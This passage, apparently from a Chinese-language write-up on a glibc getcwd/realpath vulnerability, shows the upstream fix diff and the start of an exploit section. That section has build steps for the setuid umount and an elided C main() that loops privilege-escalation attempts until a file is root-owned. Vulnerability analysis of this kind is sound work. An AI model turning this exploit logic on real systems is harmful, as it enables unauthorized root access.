 最终采用的方案是直接从源头来解决，对 `getcwd()` 返回的路径 `path` 进行检查，如果确定 `path[0] == '/'`，说明是绝对路径，返回。否则转到 `generic_getcwd()`（内部函数，源码里看不到）进行处理：
```diff
$ git show 52a713fdd0a30e1bd79818e2e3c4ab44ddca1a94 sysdeps/unix/sysv/linux/getcwd.c | cat
diff --git a/sysdeps/unix/sysv/linux/getcwd.c b/sysdeps/unix/sysv/linux/getcwd.c
index f545106289..866b9d26d5 100644
--- a/sysdeps/unix/sysv/linux/getcwd.c
+++ b/sysdeps/unix/sysv/linux/getcwd.c
@@ -76,7 +76,7 @@ __getcwd (char *buf, size_t size)
   int retval;
 
   retval = INLINE_SYSCALL (getcwd, 2, path, alloc_size);
-  if (retval >= 0)
+  if (retval > 0 && path[0] == '/')
     {
 #ifndef NO_ALLOCATION
       if (buf == NULL && size == 0)
@@ -92,10 +92,10 @@ __getcwd (char *buf, size_t size)
       return buf;
     }
 
-  /* The system call cannot handle paths longer than a page.
-     Neither can the magic symlink in /proc/self.  Just use the
+  /* The system call either cannot handle paths longer than a page
+     or can succeed without returning an absolute path.  Just use the
      generic implementation right away.  */
-  if (errno == ENAMETOOLONG)
+  if (retval >= 0 || errno == ENAMETOOLONG)
     {
 #ifndef NO_ALLOCATION
       if (buf == NULL && size == 0)
```


## Exploit
umount 包含在 util-linux 中，为方便调试，我们重新编译安装一下：
```
$ sudo apt-get install dpkg-dev automake
$ sudo apt-get source util-linux
$ cd util-linux-2.27.1
$ ./configure
$ make && sudo make install
$ file /bin/umount 
/bin/umount: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2104fb4e2c126b9ac812e611b291e034b3c361f2, not stripped
```

exp 主要分成两个部分：
```c
int main(int argc, char **argv) {
  [...]
  pid_t nsPid=prepareNamespacedProcess();
  while(excalateCurrentAttempt<escalateMaxAttempts) {
    [...]
    attemptEscalation();

    [...]
    if(statBuf.st_uid==0) {
      fprintf(stderr, "Executable now root-owned\n");
      goto escalateOk;
    }
  }

preReturnCleanup:
```